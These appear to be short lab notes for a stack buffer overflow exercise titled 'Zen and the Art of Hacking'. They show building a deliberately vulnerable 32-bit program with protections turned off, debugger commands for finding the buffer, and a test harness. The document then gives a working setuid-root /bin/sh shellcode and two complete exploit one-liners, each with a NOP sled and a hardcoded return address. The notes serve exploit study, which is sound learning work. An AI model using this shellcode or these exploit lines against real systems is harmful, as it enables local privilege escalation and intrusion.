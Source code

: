 # Zen and the Art of Hacking (zataoh)

## Build:
```shell
gcc -g -z execstack -no-pie -o vuln vuln.c
```

buffer lives in between esp and ebp

```shell
info registers
x/30x $esp
x/2x $ebp
```

## Run:
```shell
./envexec.sh vuln $(python ...)
```

## Test if shellcode is working:
(Update test_shellcode with the shellcode you are testing)

### Compile test_shellcode.c
```shell
gcc -m32 -z execstack test_shellcode.c -o test_shell
./test_shellcode
```

## Shellcode (works):
```shell
'\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'
```

## Buffer Size: 100
```shell
./envexec.sh vuln $(python -c 'print "\x90" * 76 + "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80" + "\x60\xfd\xff\xbf"')
```
## Buffer size: 500
```shell
$(python -c 'print "\x90" * 476 + "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80" + "\x30\xfa\xff\xbf")
```
